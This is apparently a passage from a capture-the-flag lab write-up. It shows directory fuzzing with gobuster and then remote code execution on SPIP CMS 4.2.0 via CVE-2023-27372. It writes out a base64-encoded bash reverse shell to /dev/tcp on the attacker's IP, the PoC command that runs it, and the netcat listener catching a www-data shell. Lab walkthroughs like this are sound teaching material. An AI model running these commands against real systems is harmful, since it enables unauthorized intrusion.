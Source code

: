 ![Web 80 Index](web_80_index.webp){: width="1200" height="600" }

## Shell as www-data 

### Discovering SPIP CMS

Using `gobuster` to fuzz for directories, we discover the `/spip` endpoint.

```console
$ gobuster dir -u 'http://10.10.159.24/' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 100
...
/spip                 (Status: 301) [Size: 311] [--> http://10.10.159.24/spip/]
```
{: .wrap }

At `http://10.10.159.24/spip/`, we discover a `SPIP CMS` installation.

![Web 80 SPIP Index](web_80_spip_index.webp){: width="1200" height="600" }

Checking the source code for the page, we can discover `SPIP CMS` is version `4.2.0`.

![Web 80 SPIP Version](web_80_spip_version.webp){: width="600" height="300" }

### Remote Code Execution on SPIP CMS

Looking for vulnerabilities in `SNIP CMS 4.2.0`, we came across `CVE-2023-27372`, a remote code execution vulnerability.

We can find a POC for it [here](https://github.com/nuts7/CVE-2023-27372). 

Since the POC code already uses quotes in the payload, we can use base64 to not deal with escaping the ones in our reverse shell payload.

```console
$ echo -n "bash -c '/bin/bash -i >& /dev/tcp/10.11.72.22/443 0>&1'" | base64 -w0
YmFzaCAtYyAnL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjExLjcyLjIyLzQ0MyAwPiYxJw==                                                   
```
{: .wrap }

Now, running the `PoC` with our payload, we get a shell as the `www-data` user inside a Docker container.

```console
$ python3 CVE-2023-27372.py -u 'http://10.10.159.24/spip' -c "echo YmFzaCAtYyAnL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjExLjcyLjIyLzQ0MyAwPiYxJw==|base64 -d|bash"
```
{: .wrap }

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.159.24] 40098
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@41c976e507f8:/home/think/spip/spip$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
